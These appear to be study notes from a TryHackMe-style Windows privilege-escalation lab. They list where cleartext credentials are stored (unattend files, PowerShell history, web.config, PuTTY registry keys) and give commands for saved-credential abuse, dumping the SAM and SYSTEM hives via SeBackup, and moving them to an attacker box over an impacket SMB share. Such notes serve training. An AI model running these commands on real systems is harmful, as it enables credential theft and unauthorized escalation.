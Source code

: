 ### Windows Users

**SYSTEM/LocalSystem**

An account used by the operating system to perform internal tasks. It has full access to all files and 

resources available on the host with even higher privileges than administrators.

**Local Service**

Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.

**Network Service**

Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.

### Harvesting Passwords from Usual Spots

**Unattended Windows Installations**

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

**Powershell History**

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a cmd.exe prompt:

*To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile*
```JavaScript
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Saved Windows Credentials**

The command below will list saved credentials. 

```JavaScript
cmdkey /list
```

Although you wont be able to see the credentials, use the *runas* command and the */savecred* option/
```JavaScript
runas /savecred /usr:admin cmd.exe
```

**IIS Configuration**

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```JavaScript
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

**Retrieve Credentials from Software: PuTTY**

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

```JavaScript
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### Scheduled Tasks

Scheduled tasks can be listed from the command line using the schtasks command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```JavaScript
schtasks /query /tn vulntask /fo list /v
```



```JavaScript

```

## Abusing Service Misconfigurations

Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.

All of the services configurations are stored on the registry under HKLM\SYSTEM\CurrentControlSet\Services\ .


## SeBackup / SeRestore

The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

**Verfiy your privileges**

```JavaScript
whoami /priv
```

**To backup the SAM and SYSTEM hashes, we can use the following commands**

```JavaScript
reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive
```

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's smbserver.py to start a simple SMB server with a network share in the current directory of our AttackBox:

```JavaScript
mkdir share

python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

